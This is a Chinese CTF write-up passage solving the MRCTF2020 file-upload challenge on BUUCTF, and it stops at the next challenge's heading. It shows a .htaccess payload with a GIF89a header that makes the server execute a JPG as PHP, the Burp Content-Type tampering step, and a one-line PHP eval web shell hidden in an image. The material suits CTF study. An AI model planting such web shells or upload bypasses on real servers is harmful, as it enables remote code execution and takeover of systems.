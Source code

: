 # BUUCTF Web记录 4


已经到第4篇了，不容易啊



## 0x00 [MRCTF2020]你传你🐎呢
[题目链接](https://buuoj.cn/challenges#[MRCTF2020]%E4%BD%A0%E4%BC%A0%E4%BD%A0%F0%9F%90%8E%E5%91%A2)

开头的日本人给我吓到了😅

![image-20210824192847310](image-20210824192847310.png "笑川の笑容")

试了一下，php/php2/php3/phtml什么的都传不了，jpg可以传

那么思路就比较明显了，又是上传`.htaccess`或者`.user.ini`文件来使得服务端将图片🐎当作php文件解析。

上传`.htaccess`文件，文件内容：

```
GIF89a
<FilesMatch "leo.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

这一步需要用Burp拦截请求，手动修改`Content-Type: application/octet-stream`为`Content-Type: image/png`。

然后上传`leo.jpg`，其中写入

```php
GIF89a
<script language='php'>@eval($_POST['ye']);</script>
```

蚁剑连接即可。

## 0x01 [MRCTF2020]Ez_bypass
